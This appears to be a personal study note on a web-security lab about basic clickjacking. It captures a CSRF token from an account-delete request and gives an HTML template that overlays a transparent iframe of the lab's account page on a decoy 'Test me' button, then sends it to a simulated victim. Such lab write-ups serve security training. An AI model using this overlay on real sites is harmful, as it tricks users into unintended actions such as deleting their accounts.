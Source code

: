 ﻿Based on the previous note: [NOTE](HOW%20TO%20CONSTRUCT%20A%20BASIC%20CLICKJACKING%20ATTACK.md)

![Pasted image 20241021153605.png](../../../../IMAGES/Pasted%20image%2020241021153605.png)


If we use the delete function from the account and send the request to the repeater, we get the following CRSR token:

![Pasted image 20241021155644.png](../../../../IMAGES/Pasted%20image%2020241021155644.png)

```ad-info
token:0XvopQRGgqPlwC8auzHR7owrONVjuWJf
```
Next, what we need to do is craft our Clickjacking malicious code, I used the following code for this:

```html
<style>
 iframe {
 position:relative;
 width:$width_value;
 height: $height_value;
 opacity: $opacity;
 z-index: 2;
 }
 div {
 position:absolute;
 top:$top_value;
 left:$side_value;
 z-index: 1;
 }
</style>
<div>Test me</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
```

![Pasted image 20241021162011.png](../../../../IMAGES/Pasted%20image%2020241021162011.png)
Once we send the exploit to the victim, lab's solved
